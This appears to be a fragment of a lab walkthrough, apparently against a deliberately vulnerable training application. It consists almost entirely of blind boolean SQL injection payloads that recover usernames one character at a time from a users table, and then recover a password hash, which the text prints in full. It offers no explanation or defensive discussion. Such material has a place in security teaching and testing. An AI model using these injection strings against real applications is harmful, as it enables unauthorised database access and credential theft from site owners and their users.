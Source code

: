 1' and ascii(substr((select user from users limit 1 offset 1),4))=100#

1' and ascii(substr((select user from users limit 1 offset 1),5))=111#

1' and ascii(substr((select user from users limit 1 offset 1),6))=110#

1' and ascii(substr((select user from users limit 1 offset 1),7))=98#

1337:

1' and ascii(substr((select user from users limit 1 offset 2),1))=49#

1' and ascii(substr((select user from users limit 1 offset 2),2))=51#

1' and ascii(substr((select user from users limit 1 offset 2),3))=51#

1' and ascii(substr((select user from users limit 1 offset 2),4))=55#
 
Pablo:

1' and ascii(substr((select user from users limit 1 offset 3),1))=112#

1' and ascii(substr((select user from users limit 1 offset 3),2))=97#

1' and ascii(substr((select user from users limit 1 offset 3),3))=98#

1' and ascii(substr((select user from users limit 1 offset 3),4))=108#

1' and ascii(substr((select user from users limit 1 offset 3),5))=111#

Smithy:

1' and ascii(substr((select user from users limit 1 offset 4),1))=115#

1' and ascii(substr((select user from users limit 1 offset 4),2))=109#

1' and ascii(substr((select user from users limit 1 offset 4),3))=105#

1' and ascii(substr((select user from users limit 1 offset 4),4))=116#

1' and ascii(substr((select user from users limit 1 offset 4),5))=104#

1' and ascii(substr((select user from users limit 1 offset 4),6))=121#

5f4dcc3b5aa765d61d8327deb882cf99

1' and ascii(substr((select password from users limit 1 offset 0),1))=53# 
1' and ascii(substr((select password from users limit 1 offset 0),2))=102# 
1' and ascii(substr((select password from users limit 1 offset 0),3))=52# 
1' and ascii(substr((select password from users limit 1 offset 0),4))=100# 
1' and ascii(substr((select password from users limit 1 offset 0),5))=99# 
1' and ascii(substr((select password from users limit 1 offset 0),6))=99# 
1' and ascii(substr((select password from users limit 1 offset 0),7))=51# 
1' and ascii(substr((select password from users limit 1 offset 0),8))=98# 
1' and ascii(substr((select password from users limit 1 offset 0),9))=53# 
1' and ascii(substr((select password from users limit 1 offset 0),10))=97# 
1' and ascii(substr((select password from users limit 1 offset 0),11))=97# 
1' and ascii(substr((select password from users limit 1 offset 0),12))=55# 
1' and ascii(substr((select password from users limit 1 offset 0),13))=54#
1' and ascii(substr((select password from users limit 1 offset 0),14))=53# 
1' and ascii(substr((select password from users limit 1 offset 0),15))=100# 
1' and ascii(substr((select password from users limit 1 offset 0),16))=54# 
1' and ascii(substr((select password from users limit 1 offset 0),17))=49# 
1' and ascii(substr((select password from users limit 1 offset 0),18))=100# 
1' and ascii(substr((select password from users limit 1 offset 0),19))=56# 
1' and ascii(substr((select password from users limit 1 offset 0),20))=51# 
1' and ascii(substr((select password from users limit 1 offset 0),21))=50# 
1' and ascii(substr((select password from users limit 1 offset 0),22))=55# 
1' and ascii(substr((select password from users limit 1 offset 0),23))=100# 
1' and ascii(substr((select password from users limit 1 offset 0),24))=101# 
1' and ascii(substr((select password from users limit 1 offset 0),25))=98# 
1' and ascii(substr((select password from users limit 1 offset 0),26))=56# 
1' and ascii(substr((select password from users limit 1 offset 0),27))=56# 
1' and ascii(substr((select password from users limit 1 offset 0),28))=50# 